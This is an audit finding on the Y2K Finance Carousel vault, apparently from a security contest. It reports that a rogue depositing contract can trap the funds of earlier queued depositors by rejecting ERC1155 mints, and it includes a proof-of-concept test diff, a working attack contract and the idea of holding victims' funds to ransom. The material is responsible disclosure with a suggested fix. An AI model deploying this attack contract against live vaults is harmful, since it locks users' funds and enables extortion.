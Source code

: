 Respx

high

# Queued deposits can be trapped by a rogue depositing contract that reverts when in the queue

## Summary
The tokens minted by the Y2K vaults, including the carousel, are of the type `ERC1155`. This type of token can be made to revert when sent to a contract. By depositing into the carousel's queue with a contract, we can cause all attempts to process deposits in the queue to revert.

## Vulnerability Detail
(See the poc test below for a full example)

When `mintDepositInQueue()` is called to process the queue, it calls `_mintShares()` [on line 334](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L334-L339) to process a deposit. This mints `ERC1155` tokens using `ERC1155.mint()`. This [calls `ERC1155._doSafeTransferAcceptanceCheck()`](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/lib/openzeppelin-contracts/contracts/token/ERC1155/ERC1155.sol#L285) which [checks whether the recipient is a contract](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/lib/openzeppelin-contracts/contracts/token/ERC1155/ERC1155.sol#L496-L502) and, if it is, calls `onERC1155BatchReceived()` on the recipient. If the recipient does not return `IERC1155Receiver.onERC1155BatchReceived.selector`, the transaction reverts.

It is therefore possible to have an attack contract enter into the queue and then change its behaviour to revert when the vault attempts to mint tokens to it as part of processing the queue. As the queue is FILO (first in last out), all those who entered the queue before the attack contract will be trapped behind it, unable to withdraw their funds.

Funds cannot be withdrawn for epoch 0 (queued funds) as `Carousel.withdraw()` reverts because of [its `epochHasEnded()` modifier](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L138).

An attacker could potentially wait for one or more large deposits to be placed in the queue before making this attack. As demonstrated, users who deposited into the queue before the attack contract would have their funds trapped. The attacker could potentially hold those users' funds to ransom and extract direct payment for their return.

## Impact

Users could potentially have their funds permanently locked from them, resulting in permanent loss. Or they might have to pay a ransom.

## Code Snippet
Here is a proof of concept test. Read through the comments for a description of the attack flow.
```Diff
diff --git a/test/V2/Carousel/CarouselTest.t.sol b/test/V2/Carousel/CarouselTest.t.sol
index 7caa685..71f9d47 100644
--- a/test/V2/Carousel/CarouselTest.t.sol
+++ b/test/V2/Carousel/CarouselTest.t.sol
@@ -203,6 +203,11 @@ contract CarouselTest is Helper {
     }
 
     function testDepositIntoQueueMultiple() public {
+
+        // This is the rogue attacker which will deposit and block the queue
+        NotVeryBritish attacker = new NotVeryBritish();
+        deal(UNDERLYING, address(attacker), 1000 ether, true);
+
         // test multiple deposits into queue
         uint40 _epochBegin = uint40(block.timestamp + 1 days);
         uint40 _epochEnd = uint40(block.timestamp + 2 days);
@@ -216,41 +221,75 @@ contract CarouselTest is Helper {
         helperDepositInEpochs(_epochId,USER, true);
         helperDepositInEpochs(_epochId,USER2, true);
         helperDepositInEpochs(_epochId,USER3, true);
+
+        // We can still use this helper function to make our attack contract deposit
+        // Deposit in the middle of the queue to trap some users but not others
+        helperDepositInEpochs(_epochId, address(attacker), true);
+
         helperDepositInEpochs(_epochId,USER4, true);
         helperDepositInEpochs(_epochId,USER5, true);
         helperDepositInEpochs(_epochId,USER6, true);
 
-        assertEq(vault.getDepositQueueLenght(), 6);
+        assertEq(vault.getDepositQueueLenght(), 7);
         
         // check balance of relayer
         uint256 balanceBefore = IERC20(UNDERLYING).balanceOf(address(this));
 
-        // mint deposit in queue
-        vault.mintDepositInQueue(_epochId, 6);
+        // Now set our attack contract to stop returning the correct value
+        // and so cause reverts in ERC1155._doSafeBatchTransferAcceptanceCheck()
+        attacker.setBehaviour(false);
+
+        // Attempts to process the entire queue revert
+        vm.expectRevert("ERC1155: ERC1155Receiver rejected tokens");
+        vault.mintDepositInQueue(_epochId, 7);
+
+        // We can process those who came in after the attacker
+        vault.mintDepositInQueue(_epochId, 3);
 
         // check balance of relayer
         uint256 balanceAfter = IERC20(UNDERLYING).balanceOf(address(this));
 
         // check relayer fee
-        uint256 _relayerFee = (balanceAfter - balanceBefore) / 6;
+        uint256 _relayerFee = (balanceAfter - balanceBefore) / 3;
         assertEq(_relayerFee, relayerFee);
 
         // check balances
-        assertEq(vault.balanceOf(USER, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOfEmissions(USER, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOf(USER2, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOfEmissions(USER2, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOf(USER3, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOfEmissions(USER3, _epochId), 10 ether - relayerFee);
+        // The first 3 users in have no balance, as they cannot be processed in the queue
+        assertEq(vault.balanceOf(USER, _epochId), 0);
+        assertEq(vault.balanceOfEmissions(USER, _epochId), 0);
+        assertEq(vault.balanceOf(USER2, _epochId), 0);
+        assertEq(vault.balanceOfEmissions(USER2, _epochId), 0);
+        assertEq(vault.balanceOf(USER3, _epochId), 0);
+        assertEq(vault.balanceOfEmissions(USER3, _epochId), 0);
+
+        // The last 3 users are fine
         assertEq(vault.balanceOf(USER4, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOfEmissions(USER4, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOf(USER5, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOfEmissions(USER5, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOf(USER6, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOfEmissions(USER6, _epochId), 10 ether - relayerFee);
+
+        // The deposit queue has the funds of our 3 trapped depositors and also the attack contract:
+        assertEq(vault.getDepositQueueTVL(), 40 ether);        
+        
+        //Let's take a closer look at our first trapped user, USER:
+        // No tokens for the zero epoch, of course, as they don't get minted:
+        assertEq(vault.balanceOf(USER, 0), 0);
+        // No tokens for the current epoch, as tested before:
+        assertEq(vault.balanceOf(USER, _epochId), 0);
+
+        // The funds cannot be withdrawn for epoch 0 as they are linked to an epoch that has not resolved
+        // (and the _burn would fail anyway as no tokens were ever minted)
+        vm.startPrank(USER);
+        vm.expectRevert(VaultV2.EpochNotResolved.selector);
+        vault.withdraw(0 , 10 ether, USER, USER);
+        vm.stopPrank();
+
     }
 
     function testRolloverMultiple() public {
+
         // test multiple rollovers
         // roll over users from testDepositIntoQueueMultiple test
         testDepositIntoQueueMultiple();
@@ -378,4 +417,39 @@ contract CarouselTest is Helper {
     }

+}
+
+contract NotVeryBritish {
+// (British people are good at queueing.)
+
+    bytes4 public successValue = bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"));
+    bool public goodBehaviour = true;
+    /*
+     * NOTE: To accept the transfer, this must return
+     * `bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"))`
+     * (i.e. 0xf23a6e61, or its own function selector).
+     *
+     * @param operator The address which initiated the transfer (i.e. msg.sender)
+     * @param from The address which previously owned the token
+     * @param id The ID of the token being transferred
+     * @param value The amount of tokens being transferred
+     * @param data Additional data with no specified format
+     * @return `bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"))` if transfer is allowed
+     */
+    function onERC1155Received(
+        address ,
+        address ,
+        uint256 ,
+        uint256 ,
+        bytes calldata 
+    ) external view returns (bytes4) {
+        return goodBehaviour ? successValue : bytes4(keccak256("fail"));
+    }
+
+    function setBehaviour(bool _behaviour) external {
+        goodBehaviour = _behaviour;
+    }
+
+    receive() external payable {}
+    fallback() external payable {}
 }
\ No newline at end of file
```
(Note: we use `forge`'s ability to send transactions direct from contracts to make the deposit process simple, but it would of course be possible to build functions in the attack contract which make it call the deposit() function on the carousel vault.)
 
## Tool used

Manual Review

## Recommendation

Allow users to cancel and withdraw funds for unresolved queue positions.
